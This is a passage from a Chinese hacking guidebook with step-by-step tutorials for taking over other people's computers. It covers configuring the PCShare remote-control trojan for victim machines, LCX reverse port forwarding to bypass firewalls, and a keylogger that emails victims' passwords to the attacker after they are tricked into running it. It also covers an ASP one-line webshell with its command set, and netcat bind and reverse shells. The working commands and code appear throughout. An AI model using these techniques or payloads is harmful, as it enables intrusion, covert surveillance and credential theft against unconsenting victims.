使用“进程查看”功能可以查看自己电脑中正在运行的软件，如图149所示，对于查木马也有一定的帮助！看到不正常的进程要尽快按“删除”按钮删除掉，并根据提示的文件路径，将硬盘上相应的文件和目录也删除掉，以绝后患。啊D还整合了端口扫描功能，结果还是比较准确的，如图150所示。

除了介绍的这些以外，还有“路由查看”、“网卡MAC查看”、“PING”、“域名IP转换”等零七八碎的功能，初次学习黑客的朋友们赶紧去下载一个，体会一下这款杂货铺工具的感觉吧。


图149


图150

## 17 我不会使用PCSHARE，能教教我吗？

PCSHARE 是一款与灰鸽子齐名的远程控制工具，它生成的服务端比较小，使用方法与灰鸽子基本一样。运行工具后，会看到上方有一排按钮，其中“刷新IP”、“参数设置”、“创建客户”等几个是亮的，处于激活状态，如图151所示。


图151

先点击“创建客户端”，在“通信连接相关配置（可以为域名或 IP 地址）”这里一般是填域名。比如你有一个花生壳的域名 hack.oipc.com.cn，你就可以利用域名上线，如图152所示。端口就填默认的80，这样生成一个服务端，安装到你的肉鸡上。


图152

然后在花生壳上把你的 IP 和域名映射，此时你肉鸡上的 PCSHARE 工作模式是连接域名 hack.oipc.com.cn。由于你已经把这个域名和你的 IP 作了映射，就等于是连接到你的 IP，就会显示肉鸡上线了，如图153所示。


如果你没有域名，那么就需要一个空间来作为你上传的转发 URL 的地址。在刚才“创建客户端”弹出的设置框中，把“中转URL”选中，这里的地址就是你的空间上用来存放 IP 的文件地址。假设你有个空间的地址为 test.nohack.com，在空间下放着一个名为 IP.TXT 的文件用来存放 IP 地址，那么这里就填入：**http://test.nohack.com/ip.txt**，如图154所示。


填完后点“测试URL”看看是否能被使用。测试成功说明我们填写正确，并且会在消息框中显示出 IP.txt 的内容，以后 PCSHARE 的服务端就是从这个 ip.txt 里得到 IP 地址去连接客户端，如图155所示。

该设置框其它几项是无关紧要的，大家按图示进行设置即可。分组是指用来区分是哪类肉鸡，标识是给用这个客户端控制的机器取个名字，如图155所示。


将生成的服务端在肉鸡上运行，然后把我们的 IP 更新文件放到 WEB 空间上。点击主界面上的“刷新IP”按钮，在弹出的框中输入空间服务器地址和那个 IP.TXT 文件存放的位置。一般是在 WWWROOT 目录下，如果是别的目录名可以作相应的修改。最后将你空间的用户名和密码填上，如图156所示。


图156

点击“刷新IP”，如果成功，就说明能使用了。此时肉鸡上 PCSHARE 的工作过程是访问 `http://test.nohack.com/ip.txt` 得到我们刷新的 IP，并连接这个 IP，于是肉鸡上线。

肉鸡上线后，则才一些没有被激活的按钮现在已经亮了，表示我们能对肉鸡进行操作。如“文件管理”能上传／下载／删除文件；“屏幕监控”能看到肉鸡当前屏幕；“键盘监控”能记录下对方的击键；“进程管理”能杀死它的进程；“注册表管理”可以对注册表进行各种操作，如图157所示，总之对方的机器已经是自己的了，可以无所不能。


图157

## 18 如何使用FXP方便地管理自己的WEB空间？

本书的许多章节中都涉及到了使用 WEB 空间，作为一个黑客，除了扫描、注入等一般意义上的黑客工具，WEB 空间管理工具也是必备的。在拥有空间后，对空间的内容进行管理是一项主要工作。

我们利用空间的主要方式在于中转木马 IP 地址、调试整站程序、转发下载工具等，这些都需要先把相关程序上传到空间然后使用。

很多空间都提供了用户在线管理功能，可以让我们在登录之后不需要其它工具的辅助，通过浏览器就可以上传文件，如图158所示。这本来是个不错的功能，因为它能让我们在任何一台可以浏览网络的电脑上进行文件上传，省了不少麻烦事。可是如果是在自己的计算机上对空间内容进行管理，就显得太不方便了。

FTP 上传和下载最方便的工具目前首推 FLASHFXP，它之所以从众多 FTP 工具中脱颖而出，是因为它率先采用了断点续传的 FTP 上传下载技术。运行程序 FLASHFXP，选择“站点”－“站点管理器”，把我们的空间添加到程序连接列表中，如图159所示。


在弹出窗口中左边的“FLASHFXP SITE”就是站点列表，由于我们还没有添加站点，所以这里是空的，如图160所示。


点击下面的“新建站点”按钮，如图161所示，在弹出的窗口输入新建站点名，这里我输入 NOHACK。这时再看左边的站点列表，一个名为 Nohack 的站点就添加上了，如图162所示。


但是现在这个站点只是挂个名而已，还没有设置 IP、账号、密码等参数。用鼠标点选这个站点，在右边的窗口中逐一输入我们空间的 IP 地址、账号和密码，如图163所示。需要注意的是 IP 地址这里，实际上填入域名也是可以的，如图164所示。


图163


图164

填好后点下面的“应用”。现在双击左边的站点名称“Nohack”就会连接我们的站点，也可以点击程序上面的黄色闪电图标，在弹出的菜单中选择站点名 nohack 进行连接，如图165所示。


图165


图166

程序开始连接我们的空间，稍等片刻后就在右侧的目录框中出现了我们空间的文件夹。典型的虚拟主机文件夹内容，WWWROOT 是 WEB 文件夹，一般放在这个文件夹里的文件都能通过 URL 访问到，如图166所示。双击 WWWROOT 文件夹，其中的文件继续在窗口中列出。

至于如何用该软件进行上传和下载，那实在是太简单了。我们连接到空间后，FLASHFXP 的操作界面已经分成两部分，左边是本地界面，右边是远程空间界面，如图167所示。


图167

在左边选择要上传的目录或文件，然后像在本地操作文件一样用鼠标拖到右边，就开始上传了。把远程空间里的文件下载到本地也是一样，在左边选中保存的文件夹，再把右边的文件拖到左边就行了，如图168所示。


除了 FTP 工具必备的上传下载功能，FLASHFXP 还有一个非常方便的功能——在线编辑。假如我们要对空间里的某个文件进行编辑，一般是先把文件下载到本地，然后打开进行编辑，编辑好之后再上传到远程空间。这明显比较麻烦，在线编辑功能则是可以直接在远程空间进行。

例如现在要对空间里的 IP.txt 文件进行编辑，右键点击该文件，在弹出的菜单中选择编辑，如图169所示。


这时从空间里打开了该文件进行编辑，我们在8000后面加个1，然后保存改动后的文件，如图170所示。


在弹出对话框“在准备好上传编辑的文件时单击‘确定’”时点“确定”，我们编辑好的文件就上传到了空间，相当方便，如图171所示。


最后有一点提醒大家注意，在程序的左右两边窗口中，哪边是显示本地文件，哪边是显示远程空间的文件，这是可以通过菜单条上的（*图标*）按钮进行调整的，如图172所示，千万不要因为自己的程序和本例讲解中的不一样而摸不着头脑。


## 19 怎么使用端口转发工具LCX？

在黑客活动中，常常会遇到这种情况，打开了目标服务器的远程桌面服务3389端口和 TELNET 服务23端口或别的端口，想进行连接，可是总连接不上，如图173所示。


这是因为服务器安装有防火墙，禁止外部连接它的相关端口，即使该端口已经打开。这就好比门打开了，可是有个警卫站岗，禁止外面的数据包通行。

通常我们能用反向连接的方法突破，这是利用防火墙对本机向外连接的端口很少加以限制的规则。整个过程是在黑客的计算机 B 上把3389端口的信号转发到51端口，再到服务器 A 上也把3389端口的信号转发到51端口，并且主动连接黑客计算机51端口建立隧道。因为是服务器主动连接外面，防火墙是不会拒绝的，建立成功后，在黑客主机上连接自己的3389端口，通过一连串的转发，实际上相当于连接了服务器 A，如图174所示。


而 LCX 就是用来实现以上构思的工具，在 LCX 的帮助说明中也对这个过程有描述。在前面已经试验过了，23端口连接不上，现在用上述的思路，给大家演示一下把服务器上23端口信号转发到黑客主机建立反向连接。先在自己的计算机上运行 **lcx -listen 51 23**，把23端口的信号转发给51端口，运行成功提示 **Waiting for Client on port:51**，在51端口等待客户连接，如图175所示。

```bash
D:\>lcx -listen 51 23
[+] Listening port: 51 ......
[+] Listen OK!
[+] Listening port: 23 ......
[+] Listen OK!
[+] Waiting for Client on port:51 ...
```

在服务器上执行 **lcx -slave 服务器的内网IP地址 51 黑客计算机的IP地址 23**，运行成功后如图176所示，而在黑客的计算机上会出现如图177所示的提示。

```text
[*] Make a Connection to 192.168.1.2:51....
```

图176

```text
[+] Waiting for Client on port:51 ....
[+] Accept a Client on port 51 from 192.168.1.2 ..
[+] Waiting another Client on port:23....
```

图177

提示有客户从51端口连接进来了，反向连接建立成功。现在再回头来试试前面连接不上的23端口，当时我们是执行的Telnet服务器IP地址221.xx.70.123的23端口，现在IP地址需要修改成本机的。输入命令 **telnet 本机IP地址 127.0.0.1**，成功连接，如图178所示。


图178

最后强调一点，请多看几遍图174，深入理解反向转发过防火墙的思路，在真正使用中请大家灵活运用。

## 20 如何使用键盘记录器？

在第二章《常见问题答疑解惑》第21问中已经详细介绍了两者的不同，本书将以键盘窃听器v1.3为例来说明是如何使用的，先看看该工具的功能特点：监听并记录被监控用户电脑的所有键盘、鼠标操作，包括QQ账号密码、游戏账号密码、聊天记录、所有浏览过的网页和文件夹记录。通过保存为文件，定时发送到你指定的邮箱内。特点为：使用方便，只有一个可执行文件就能使用，配置简单，可安全卸载。

软件主程序只有一个可执行文件，大约200K，使用时要先设置好自己的邮件地址。设置方法：**修改文件名keycapture@126.com.exe为你自己的邮箱即可，注意后缀名要为.exe，如yourname@sohu.com.exe这种形式**。我设置的文件名是nohacktest1@163.com.exe，如图179所示。


图179

第一次运行时和盗号木马程序一样，要设置转发邮箱地址，也可通过热键 **Alt+Ctrl+Shift+F1** 调出窗体进行设置，如图180所示。


图180

运行该工具后按住 **Alt+Ctrl+Shift+F1** 组合键，软件的界面就显示出来了。选择“设置”中的“发件箱”设置，这里是输入你用来转发信息的中转邮箱的地址、发送邮件的SMTP服务器名、邮箱账号和密码，如图181所示。


图181

“收件箱”设置中填入你要查看的记录保存信息的邮箱地址，这两点和普通盗号木马的配置没有区别。然后在功能选项上把“开机自动运行”“运行时自动隐藏”“运行时自动录制”选上，如图182所示。“自动发送Email”要选中，这样每半小时就会在邮箱发送一次记录的数据包。


图182

“录制时保存”就不要设置了，因为我们是把记录结果发送到邮箱的，这里再保存到本地是多此一举，并且在肉鸡上使用时还容易暴露。

设置好之后点击右上角的小叉关闭程序，将程序文件发送给别人，想办法让他运行一次，那么你就等着收邮件看结果吧。当这个程序在目标主机上执行后就会开始记录对方的按键信息，一到每次设置的发送时间，它就会将信息发送到我们设置的收件箱中。我们通过收件箱里的邮件内容可以看到对方的按键记录，从而分析出相关用户名和密码，如图183所示。


图183

从图183中可以看到记录的相关信息，包括时间和窗体特征字符。比如我们看到对方“与从凌阙蔚 交谈中()”，下面的“jh h vb ,d fgghky”就是在这个窗口中敲击的按键，看样子像是用的五笔输入法。我们用五笔输入法输入“jh h vb ,d fgghky”看看，结果还原的文字是“早上好，在干嘛”，呵呵，很简单吧？这样我们就得到了肉鸡所输入的信息，是不是很神奇？

## 如何使用C/S木马

在本书以前的章节中教过大家如何使用WEBSHELL木马，通过它可以浏览文件、上传文件、执行CMD命令、连接数据库等，这种木马只要访问木马文件的URL，再输入密码进行登录就可以操作了，如图184、图185所示。


> 资深黑客渗透内幕答疑

这种木马是把文件整个传到服务器上，通常功能比较全面，但是体积会比较大，这样就限制了它的利用，使得它不能像一句话木马那样插入到正常的ASP文件里进行隐藏。另外，其体积太大代码太多，还使得常常被一些过滤程序拒之门外。针对这些问题，聪明的黑客就想到把WEB木马做成客户端/服务器端的形式来克服自身的弱点，也就是英文简称的C/S木马。

C/S木马有几点好处：

- 服务端（即S端）很小，就一句话。体积小自然适用性就好，能插入数据库及配置文件；
- 功能全面，并不会因为改成C/S形式而少掉某些功能；
- 具有比较好的反过滤能力，很多大马写不上去的场合，C/S木马基本都可以。

C/S木马中比较有代表性的是雷克图C/S木马，解压后包括一个目录和一个HTML文件，这个HTML文件就是客户端（即C端），如图186所示。


双击运行后会弹出一个拦截提示，说有别的脚本一起运行，这里要允许它运行，如图187所示。


在下面的字段中，这一段就包含了服务端的代码了，如图188所示。


图188

把 `<%eval request("go")%>` 这一句代码存为asp后缀文件，它就是C/S木马服务端，中间引号内的go是密码，可以改成我们自己的。这里我改为 `<%eval request("nohack")%>` 保存为 **nohack.asp** 文件并上传到网站上，如图189所示。


图189

在左边“The URL”处输入服务端的ASP地址；“Password”处输入服务端密码；“Function”处要选“ABOUT”，相当于测试。点击“Send”按钮，在弹出的IE窗口中，如果出现“Hello, world!”，则说明测试成功，木马工作正常，如图191所示。


图191

现在先看看我们能做哪些操作，点击“Function”处的“ABOUT”下拉菜单，全是英文函数，如图191所示，我逐一介绍一下各项的功能。


图191

“Server Variable”是服务器状况，选中后点“Send”，返回服务器的状况信息，如图192所示。


“GET Drives”是指硬盘状况，从返回的结果中显示出了卷标名、分区的类型、分区大小等信息，如图193所示。

“File List”是文件列表，选中后下面会出现一个地址输入框，如图194所示。这里可以填入要查看的绝对路径，再点“Send”就能得到该目录下的文件列表，如图195所示。


| Name | Size | ModifyTime |
|---|---|---|
| backup | Dir | 2008-4-17 23:42:42 |
| bbs | Dir | 2007-10-29 21:29:52 |
| ... | ... | ... |

图195：`List D:\` 目录列表结果。

如果要得到下级目录的文件列表，就回到上一步，在地址处输入目录地址。比如查看meiyu目录，就在地址处写入 `d:\meiyu`，这样就能看到相应目录的文件列表了。**“Copy FileFolder”是拷贝文件**，“From”处输入要拷贝的文件地址，“to”处是要复制到的目的地址，如图196所示。


**“Edit TextFile”是编辑文件**，输入要编辑的文件路径，在弹出的编辑框中编辑好后进行保存即可，如图197所示。


**“New FileFolder”是新建文件**，和上面的“Edit TextFile”界面基本一样，填入路径和文件名就会生成一个新文件。

**“Upload TextFile”是上传文本文档**，“Path”处输入绝对路径，下面的方框输入文本文档内容，如图198所示。然后点“Send”就在服务器上生成了文件，这个方法常用来上传WEB木马。


**“DownLoad File”是下载文件功能**，“FilePath”处输入要下载的文件路径，如图199所示。“delete”是删除文件，输入要删除的文件地址就能删除。


“**Rename**”是给文件改名，“From”处输入文件名，“to”处输入修改后的文件名，如图200所示。


图200

“**Upload From URL**”是从某个URL上下载文件。通过这种方法上传文件时，先把文件上传到自己的空间，然后通过空间URL地址将文件下载到本服务器，如图201所示。这与上面的“Upload TextFile”功能不同，通过URL上传能上传任何文件。


图201

“**WScript Shell**”是执行命令功能。如果原来的cmd.exe不能执行，可以上传一个cmd到WEB目录下，再把下面的cmd.exe改为 `d:\www\cmd.exe /c net user`，手工指定需要执行的cmd.exe的路径，看看能不能执行成功，如图202所示。


图202

“**ReadReg**”是读注册表，在下面输入注册表路径就能读了。

“**SQL RootKit**”是SA权限条件下连接MSSQL数据库并执行命令的地方。“Connection str”处输入数据库连接字串，“Command”处输入命令，如图203所示。请注意：这里输入系统命令，不是SQL命令。


图203

“**DATABASE**”是连接和操作数据库，支持ACCESS和MSSQL两种数据库连接，并且在这里执行的命令，都只能是数据库命令，如图204所示。


“Your Code”是快速批量插马功能，在下面的方框中输入代码内容即可，如图205所示。


了解了C/S木马的功能，再与图185中普通WEB木马的功能对比一下，我们可以看到，C/S木马不仅具备所有的主要功能，而且还有体积小的特点，应用性非常强。

## 22 网络瑞士军刀NC的多种使用方法

凡是学习黑客技术的，我想没有不知道NC大名的。NC全名NETCAT（网猫？），是一款具有多种功能、支持多种协议的网络工具。其用法多种多样，被称为黑客工具中的“瑞士军刀”，特别是在进行抓包修改上传时，是必不可少的提交工具。NC有几种功能平时接触得不是特别多，但却非常有用，是NC这个工具本身真正的用途，它不是只用来POST几个数据包而已。

**现在流传的NC有两种，一种是修改版，只有23K；另一种是完整版，50K，只有完整版才有全部的功能。**

在肉鸡上执行 `nc -vv -l -p 23 -t -e cmd.exe`，如图206所示，这个命令是把CMD命令终端绑定到23端口上。

```text
nc -vv -l -p 23 -t -e cmd.exe
```


在我们自己的计算机上输入 `nc -vv 肉鸡IP 23`，这样就得到了肉鸡的命令行操作权限，如图207所示。现在在这个CMD窗口上执行的命令就会在远程肉鸡上被执行。

```text
nc -vv 肉鸡IP 23
```


这个方法很有用，有时在WEBSHELL里执行命令很卡，总是假死的时候，我们不妨在CMD下执行命令，会轻快许多。这种正向连接一般会受到防火墙的阻挡，但NC还支持反向连接。

# 第六章 黑客工具实战技巧

先在本地机器上执行监听命令 `nc -v -n -p 8000`，如图208所示。


在肉鸡上执行命令 `nc -e cmd.exe 自己计算机的IP地址 8000`，这样就反连到了黑客的计算机上，如图209所示。


NC还能用来传递文件，这个可能是很多朋友没有想到的。在肉鸡上执行命令 `nc -v -l -p 1234<你要传递的文件路径`，如图210所示，`lcx.exe` 是和 `nc` 在同目录下，如果不在同一目录，需要输入完整的路径，如 `d:\hacksoft\lcx.exe`。

在本机执行命令 `nc -v 肉鸡IP 1234>保存的文件名`，如图211所示，意思是连接肉鸡1234端口，并把结果保存为指定文件名。


现在到本机 `C:\Documents and Settings\Administrator` 目录下查看，`lcx.exe` 已经躺在那了，如图212所示。


最后给大家介绍一个NC的绝活——端口占用。假设有以下这种情况：一台比较变态的服务器连对外连接也禁止了，只对外开放了1433端口供服务器连接。虽能正向连接1433端口，可是MSSQL运行在上面，无法用 `nc -vv -l -p 1433 -t -e cmd.exe` 把CMD通过1433端口上传，因为端口是在通信中。这种情况下我们可以用NC抢断MSSQL正在使用的1433端口信号，从而把cmd上传上去。

命令是 `nc -v -L -e cmd.exe -p 1433 -s 肉鸡自己的IP`，如图213所示，现在我们连接肉鸡的1433端口得到的就是cmdshell了。**不过注意：此时该肉鸡与外界的1433端口连接都被中断了，小心被管理员发现。**


以上就是NC的一般常用方法，其实它的作用远不止这些，多动脑子可以发现很多用简单工具完成复杂任务的办法，这是一种乐趣。